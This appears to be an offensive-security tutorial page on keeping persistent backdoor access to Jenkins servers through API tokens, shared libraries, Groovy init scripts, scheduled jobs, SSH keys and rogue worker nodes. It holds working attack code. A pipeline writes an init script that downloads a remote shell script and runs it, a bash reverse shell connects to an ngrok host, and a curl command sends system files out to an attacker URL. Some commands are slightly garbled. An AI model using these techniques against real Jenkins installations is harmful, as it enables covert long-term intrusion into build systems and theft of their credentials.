 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - We can run this via pipeline
``` Groovy
pipeline{
    agent any
    stages{
        stage('Adding a groovy init file'){
            steps{
                sh '''
                    echo "'wget -O /tmp/revshell.sh  https://gist.githubusercontent.com/dibsy/00d346575659f977b353f95a7064e966/raw/dc89f902db2c81fe96c2f5a102e16c25b8308983/temp-cmd.txt'.execute()" > /var/lib/jenkins/init.groovy
                    echo "sleep(5000)" >> /var/lib/jenkins/init.groovy
                    echo "'sh /tmp/revshell.sh'.execute()" >> /var/lib/jenkins/init.groovy
                    '''
            }
        }
    }
}
```
  
  
  
  
init.groovy
```
"wget -o /tmp/revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
"sh /tmp/revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```

<img src="backdoor-rev.png">

  - Exfiltrate data - You can exfiltrate system files and automate a process to exfiltrate all jenkins configuration files, secrets,
exfil.groovy

```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```

<img src="backdoor-exfil.png">

  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Triggering backdoor jobs

- Add a build-step

<img src="backdoor-build-step.png">

- Add a post-build Actions to start our backdoor

<img src="backdoor-build-step-post.png">

- Build a job that runs periodically ( cronjob style )

<img src="backdoor-cron.png">

## Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Addling Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">

